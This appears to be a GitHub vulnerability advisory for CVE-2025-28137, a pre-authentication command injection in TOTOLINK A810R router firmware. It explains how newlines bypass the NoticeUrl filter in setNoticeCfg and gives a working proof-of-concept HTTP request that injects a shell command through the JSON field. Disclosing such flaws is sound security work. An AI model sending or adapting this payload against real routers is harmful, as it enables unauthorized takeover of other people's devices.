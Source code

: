 # RCE-TOTOLINK-V4.1.2cu.5137_B20200730

system.so-setNoticeCfg-NoticeUrl

## CVE-ID
CVE-2025-28137

## PRODUCT

TOTOLINK

## Vendor of Product

https://www.totolink.net/

## VERSION

A810R V4.1.2cu.5182_B20201026

## Firmware

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/169/ids/36.html

## Vulnerability Type

RCE

## Description

The TOTOLINK A810R V4.1.2cu.5182_B20201026 were found to contain a pre-auth remote command execution vulnerability in the setNoticeCfg function through the NoticeUrl parameter.

The NoticeUrl is user-controllable. The GetDomainName function extracts the domain part from the URL and assigns it to v36. Subsequently, it enters the validity_check function to verify whether special characters are present. If special characters are included, it directly returns.

This function can be bypassed using newline characters, and `\n` can be used in JSON data to achieve this.
![image](https://github.com/user-attachments/assets/eebb14e8-ca78-434c-a130-ac0d1b0f097e)
If no special characters are included, the process continues and triggers the system function.
![image](https://github.com/user-attachments/assets/df5ea963-a1b6-4a2d-a1aa-8d990f88ba01)
![image](https://github.com/user-attachments/assets/aee8a1b8-b272-4d33-9a1b-c1c01790a2f5)
## POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 135

Origin: http://192.168.0.1

Connection: keep-alive

Referer: http://192.168.0.1/firewall/url_filtering.asp?timestamp=1740669963073

Cookie: SESSION_ID=2:1604139547:2



{"topicurl":"setting/setNoticeCfg","NoticeUrl":"bbb\nls>/test\nbb.com","WhiteListUrl1":"1111",

"IpFrom":"123.123.123.0","IpTo":"aaaa"}
```
![image](https://github.com/user-attachments/assets/a9764c05-cadb-4256-8c9b-701e6676b65e)



